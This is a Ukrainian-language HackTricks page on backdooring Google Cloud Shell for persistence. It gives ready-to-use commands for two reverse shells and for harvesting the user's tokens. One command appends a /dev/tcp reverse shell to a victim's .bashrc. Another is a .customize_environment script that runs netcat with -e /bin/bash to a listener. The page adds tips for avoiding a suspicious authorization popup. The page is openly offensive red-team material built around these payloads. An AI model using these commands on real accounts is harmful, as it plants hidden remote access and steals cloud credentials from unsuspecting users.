 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких супутніх витрат.

Ви можете отримати доступ до Cloud Shell Google з **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для зловмисників:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю автентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть будучи власниками організації).
2. Вказаний екземпляр **зберігатиме свій домашній каталог принаймні 120 днів**, якщо не буде жодної активності.
3. **Немає можливостей для організації контролювати** активність цього екземпляра.

Це в основному означає, що зловмисник може помістити бекдор у домашній каталог користувача, і поки користувач підключається до GC Shell принаймні кожні 120 днів, бекдор виживе, і зловмисник отримає оболонку щоразу, коли вона запускається, просто виконавши:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, який, якщо існує, буде **виконуватись щоразу**, коли користувач отримує доступ до **cloud shell** (як у попередній техніці). Просто вставте попередній бекдор або один з наступних, щоб підтримувати стійкість, поки користувач "часто" використовує cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зазначити, що **перший раз, коли виконується дія, що вимагає аутентифікації**, у браузері користувача з'являється вікно авторизації. Це вікно потрібно прийняти, перш ніж команда зможе виконатися. Якщо з'явиться несподіване спливаюче вікно, це може викликати підозру і потенційно скомпрометувати метод збереження.
{% endhint %}

Це спливаюче вікно від виконання `gcloud projects list` з cloud shell (як атакуючий), яке видно в сеансі браузера користувача:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, спливаюче вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється SSH з'єднання

В основному, використовуються ці 3 API виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (дозволить вам додати ваш публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (дозволить вам запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP адресу google cloud shell)

Але ви можете знайти додаткову інформацію в [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

